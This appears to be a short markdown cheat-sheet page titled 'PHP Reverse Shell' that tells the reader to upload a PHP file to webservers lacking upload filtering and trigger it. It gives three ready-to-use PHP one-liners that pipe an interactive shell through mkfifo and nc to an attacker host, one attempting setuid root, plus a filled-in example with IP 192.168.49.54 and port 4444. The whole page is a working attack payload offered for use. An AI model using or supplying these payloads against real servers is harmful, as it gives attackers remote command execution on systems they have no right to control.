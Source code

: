 ## PHP Reverse Shell

Usage:

This reverse shell should be uploaded in PHP webservers that allow uploads with no file extension / content type filtering. Then you can attempt to get the webserver to invoke the PHP program by messing around with the webserver e.g. navigating to certain routes, etc.

Replace `${ATTACKER_IP}` and `${ATTACKER_LISTENER_PORT}` below:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ${ATTACKER_IP} ${ATTACKER_LISTENER_PORT} >/tmp/f");?>
```

Or with setuid:

```
<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ${ATTACKER_IP} ${ATTACKER_LISTENER_PORT} >/tmp/f"); ?>
```

e.g.

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.54 4444 >/tmp/f");?>
```
